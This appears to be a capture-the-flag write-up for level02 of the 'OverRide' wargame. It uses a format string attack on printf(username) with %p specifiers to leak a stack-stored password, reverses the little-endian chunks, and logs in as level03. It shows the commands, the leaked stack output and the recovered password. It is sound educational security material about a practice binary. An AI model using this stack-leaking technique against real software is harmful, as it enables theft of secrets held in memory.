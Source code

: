 ### Download binary
``scp -P4242 level02@192.168.31.33:/home/users/level02/level02 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

---

### Main function analysis (refer to source code)

By analyzing the source code we see that the program store the content of the flag in the stack. We will then try to read the content of the stack. Our way to read the stack is to use a format string attack on this printf :

 `printf(username);`

By using the specificier '%p' rather than a username we will be able to read the stack. We also know that the password is 40 character long with this line of code :

 `bytes_read = fread(flag, 1, 41, file);`

**(40 char + 1 '\0')**

We made a little bash script **find_flag.sh** to print all the value present on the stack. We then just have to launch the script and we get this output :

``chmod +x find_flag.sh``

``level02@OverRide:/tmp$ ./find_flag.sh``
>1 - 0x7fffffffe0d0 does not have access!      // non printable / adress
>[...nil...]
>4 - 0x2a2a2a2a2a2a2a2a does not have access!  // ********
>5 - 0x2a2a2a2a2a2a2a2a does not have access!  // ********
>6 - 0x7fffffffe2c8 does not have access!      // non printable / adress
>7 - 0x1f7ff9a08 does not have access!         // non printable
>[...nil...]
>20 - 0x100000000 does not have access!        // non printable
>[...nil...]
>22 - 0x756e505234376848 does not have access! // unPR47hH -> Hh74RPnu | **H**
>23 - 0x45414a3561733951 does not have access! // EAJ5as9Q -> Q9sa5JAE | **E**
>24 - 0x377a7143574e6758 does not have access! // 7zqCWNgX -> XgNWCqz7 | **R**
>25 - 0x354a35686e475873 does not have access! // 5J5hnGXs -> sXGnh5J5 | **E**
>26 - 0x48336750664b394d does not have access! // H3gPfK9M -> M9KfPg3H | **!**
>[...nil...]
>28 - 0x383225202d203832 does not have access! // 82% - 82 -> 28 - %28 |

We see that there is a bunch of character that could look like a flag. We must reverse the character that we got because it is wrote in little endian.

After appending all piece of flag we get :
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

----

### Bypassing security

``level02@OverRide:~$ su level03``
``Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H``
>
>RELRO           STACK CANARY      NX            PIE             RPATH
>RUNPATH      FILE
>Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No >RUNPATH
